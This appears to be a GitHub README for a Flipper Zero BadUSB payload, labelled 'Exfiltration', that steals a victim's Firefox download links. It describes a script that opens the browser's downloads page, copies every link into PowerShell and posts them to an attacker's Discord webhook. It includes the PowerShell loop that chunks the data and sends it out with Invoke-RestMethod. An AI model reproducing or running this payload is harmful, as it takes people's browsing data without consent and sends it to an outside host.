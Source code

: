 # Exports all the links of the downloads

This script can be used to export all the links of the latest downloads made through Firefox.

[![Hits](https://hits.seeyoufarm.com/api/count/incr/badge.svg?url=https%3A%2F%2Fgithub.com%2Faleff-github%2Fmy-flipper-shits&count_bg=%233C3C3C&title_bg=%233C3C3C&icon=linux.svg&icon_color=%23FFFFFF&title=views&edge_flat=false)](https://github.com/aleff-github/my-flipper-shits)

**Category**: Exfiltration

<div align=center>

<img src="https://github.com/aleff-github/my-flipper-shits/blob/main/img/logo-repository-2_0.gif" width="600" /><br><img src="https://github.com/aleff-github/my-flipper-shits/blob/main/img/DISCLAIMER.png" width="600" />

</div>

## Description

This script can be used to export all the links of the latest downloads made through Firefox.

This script open the Firefox app, then go to downloads page and copy all, then open a PowerShell and put all the download link in a var named $DOWNLOADS, then use a Discord Webhook to exfiltrate it.


## Dependencies

* Firefox must be installed
* Internet connection


## Settings

- You must define your Discord webhook if you want to use this method for the exfiltration

    `DEFINE DISCORD_WEBHOOK example`

- This delay depends on the number of links

    `DELAY 10000`

- This algorithm is used to avoid the size limit imposed by Invoke-RestMethod on the payload length

    ```
    $len = $DOWNLOADS.Length
        $MAX_LEN = 1900

        $ITERATIONS = [math]::Ceiling($len / $MAX_LEN)

        for ($i = 0; $i -lt $ITERATIONS; $i++) {
            $init = $i * $MAX_LEN
            $end = [math]::Min(($i + 1) * $MAX_LEN, $len)
            
            $sub = $DOWNLOADS.Substring($init, $end - $init)
            $Payload = @{content = $sub} | ConvertTo-Json

            Invoke-RestMethod -Uri $WebhookUrl -Method Post -Body $Payload -ContentType 'application/json'
        }
    ```

## Credits

<h2 align="center"> Aleff :octocat: </h2>
<div align=center>
<table>
  <tr>
    <td align="center" width="96">
      <a href="https://github.com/aleff-github">
        <img src=https://github.com/aleff-github/aleff-github/blob/main/img/github.png?raw=true width="48" height="48" />
      </a>
      <br>Github
    </td>
    <td align="center" width="96">
      <a href="https://www.linkedin.com/in/alessandro-greco-aka-aleff/">
        <img src=https://github.com/aleff-github/aleff-github/blob/main/img/linkedin.png?raw=true width="48" height="48" />
      </a>
      <br>Linkedin
    </td>
  </tr>
</table>
</div>
